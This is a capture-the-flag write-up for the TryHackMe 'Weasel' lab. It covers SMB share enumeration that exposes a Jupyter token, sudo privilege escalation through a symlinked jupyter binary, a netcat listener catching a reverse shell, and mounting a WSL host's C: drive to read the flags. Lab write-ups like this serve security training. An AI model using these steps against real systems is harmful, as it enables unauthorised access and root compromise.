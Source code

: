 ```yaml
---
title: THM Weasel
author: hanhctf
date: 2023-05-25 14:22:22 +0700
categories: [Write-up, THM]
tags: [smb, jupyter notebook]
toc: true
mermaid: true
---
```


# [**Weasel**](https://www.tryhackme.com/room/weasel)

# Summary

> - SMBclient check valid location  
> - Got jupyter token  
> - Open new Terminal on jupyter notebook  
> - Privilege Escalation on jupyter console  
> - Check linux enviroment(Docker/WSL)  
> - Mount C: drive   
> - Got user.txt and root.txt  

# Detail

## NMAP

```
PORT      STATE SERVICE       REASON  VERSION
22/tcp    open  ssh           syn-ack OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8888/tcp  open  http          syn-ack Tornado httpd 6.0.3
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
```   

Port 139/445 opoen for SMB service.  
Check SMB with `SMBClient`
```
smbclient -L ////10.10.218.64              
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        datasci-team    Disk      
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.218.64 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```  
We can access to `datasci-team`.  
Enumeration in `datasci-team`, we found `jupyter-token.txt` that can access webpage in port `8888`  

Open new `Terminal`   
Check some basic command on linux:  

```
(base) dev-datasci@DEV-DATASCI-JUP:~$ id;whoami
uid=1000(dev-datasci) gid=1000(dev-datasci) groups=1000(dev-datasci),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
dev-datasci
(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
(base) dev-datasci@DEV-DATASCI-JUP:~$ which jupyter
/home/dev-datasci/anaconda3/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~$
``` 

We can run `/home/dev-datasci/.local/bin/jupyter` with sudo without password.  
But  
```
(base) dev-datasci@DEV-DATASCI-JUP:~$ /home/dev-datasci/.local/bin/jupyter
bash: /home/dev-datasci/.local/bin/jupyter: No such file or directory
```   
Location `jupyter` is in `/home/dev-datasci/anaconda3/bin/jupyter`  
So Create symbol link from `/home/dev-datasci/anaconda3/bin/jupyter` to `/home/dev-datasci/.local/bin/jupyter`

`ln -s /home/dev-datasci/anaconda3/bin/jupyter /home/dev-datasci/.local/bin/jupyter`

And run with `sudo` `sudo /home/dev-datasci/.local/bin/jupyter console`

We in `jupyter console`.  
On Terminal, we listen on port 9001 and add python3 reverse shell on jupyter console.  

We in  
```
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.51.36] from (UNKNOWN) [10.10.85.46] 50774
root@DEV-DATASCI-JUP:/home/dev-datasci# 

```  

Can not find `root.txt` in `/root` ==> Maybe we are in docker or wsl
```
root@DEV-DATASCI-JUP:/home/dev-datasci# cat /proc/1/cgroup | grep "docker\|lxc\|kube"
cat /proc/1/cgroup | grep "docker\|lxc\|kube"
root@DEV-DATASCI-JUP:/home/dev-datasci# grep -q "Microsoft" /proc/version && echo "WSL" || echo "Not WSL"
grep -q "Microsoft" /proc/version && echo "WSL" || echo "Not WSL"
WSL
root@DEV-DATASCI-JUP:/home/dev-datasci# 

```
OK, we in WSL.

Mount C: drive to /mnt/c   
```
root@DEV-DATASCI-JUP:/home/dev-datasci# mount -t drvfs C: /mnt/c
mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:/home/dev-datasci# ls -la /mnt/c
ls -la /mnt/c
ls: cannot read symbolic link '/mnt/c/Documents and Settings': Permission denied
ls: cannot access '/mnt/c/pagefile.sys': Permission denied
ls: '/mnt/c/System Volume Information': Permission denied
total 0
drwxrwxrwx 1 root root 4096 Aug 25  2022 '$Recycle.Bin'
drwxrwxrwx 1 root root 4096 Mar 14 04:14  .
drwxr-xr-x 1 root root 4096 Aug 25  2022  ..
lrwxrwxrwx 1 root root   12 Aug 25  2022 'Documents and Settings'
drwxrwxrwx 1 root root 4096 Aug 25  2022  PerfLogs
drwxrwxrwx 1 root root 4096 Aug 25  2022 'Program Files'
drwxrwxrwx 1 root root 4096 Aug 25  2022 'Program Files (x86)'
drwxrwxrwx 1 root root 4096 Mar 13 04:47  ProgramData
drwxrwxrwx 1 root root 4096 Aug 25  2022  Recovery
d--x--x--x 1 root root 4096 Aug 25  2022 'System Volume Information'
drwxrwxrwx 1 root root 4096 Aug 25  2022  Users                                                                                                                                                                                              
drwxrwxrwx 1 root root 4096 Mar 13 05:05  Windows                                                                                                                                                                                            
drwxrwxrwx 1 root root 4096 Aug 25  2022  datasci-team                                                                                                                                                                                       
-????????? ? ?    ?       ?            ?  pagefile.sys                                                                                                                                                                                       
root@DEV-DATASCI-JUP:/home/dev-datasci#   
```

***We got both user.txt and root.txt in `/mnt/c`***

